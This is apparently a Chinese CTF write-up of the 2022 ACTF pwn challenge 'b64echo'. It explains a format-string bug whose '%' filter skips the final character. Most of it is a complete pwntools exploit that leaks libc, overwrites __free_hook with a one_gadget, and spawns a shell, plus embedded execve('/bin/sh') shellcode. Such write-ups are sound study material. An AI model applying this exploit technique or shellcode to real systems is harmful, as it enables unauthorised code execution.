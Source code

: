 ```yaml
---
title: 2022 ACTF 部分pwn Writeup
date: 2022-06-25 16:54:59 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=27/
pin: false
---
```


## b64echo

![image-20220625174651216](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625174651216.png)

题目开辟了一个堆块记录一些基值，实现base64解密，漏洞点在格式化字符串，存在循环的格式化字符串漏洞

![image-20220625174706714](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625174706714.png)

结束时存在一个free操作，考虑用格式化字符串泄露地址，同时修改free_hook为one_gadget

![image-20220625174748511](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625174748511.png)

难点在于会检验解密后的字符串中是否有`%`，一旦检验到`%`就exit，但并没有对字符串最后一个字符进行校验，导致`%`可以出现在末尾，通过多次输入实现最后需要的payload。

![image-20220625175007793](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625175007793.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
import os
import base64
context.log_level = 'debug'
context.arch='amd64'
p = process('./b64echo')
p = remote("121.36.255.51","9999")
elf = ELF("b64echo")
libc = elf.libc
#elf=ELF('./pwn')

def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def decode(con):
    length = len(con)
    sla("Tell me the length of your base64 input: ",length)
    # dbg()
    p.send(con)

def decode1(con):
    length = len(con)
    sla("Tell me the length of your base64 input: ",length)
    dbg()
    p.send(con)

# ---------------------------------
print p.recv()
aaa = raw_input()
p.send(aaa)

decode(base64.b64encode(' 81$p'))
decode('JQ==')

libc_base = int(p.recv(14),16)-0x21C87
lg('libc_base')
one = libc_base + 0x10a2fc
free_hook = libc_base + libc.sym['__free_hook']
exit_hook = 0x61bf60+libc_base
lg('one')
lg('free_hook')

#---------------------------------------------
onel = one&0xffff
oneh = (one>>16)&0xffff
onem = (one>>32)&0xffff
lg('onel')
lg('oneh')
lg('onem')
print len(str(onel))
print len(str(oneh))

pl1 = '%'
pl2 = len(pl1)*'\x00'+str(onel)+'c%'
pl3 = len(pl2)*'\x00'+'50$hn%'
pl4 = len(pl3)*'\x00'+str(oneh-onel)+'c%'
pl5 = len(pl4)*'\x00'+'51$hn'
pl5 = pl5.ljust(0x20,'x')+p64(free_hook)+p64(free_hook+2)


# sleep(0.1)
decode(base64.b64encode((len(str(onem))+3)*' '+'17$hnxhh')+p64(free_hook+4))# 
decode(base64.b64encode(' '+str(onem)+'c'+'%'))
decode(base64.b64encode('%'))


decode(base64.b64encode(pl5))
decode(base64.b64encode(pl4))
decode(base64.b64encode(pl3))
decode(base64.b64encode(pl2))
decode(base64.b64encode(pl1))

p.interactive()

'''
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
```

![image-20220625174610057](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625174610057.png)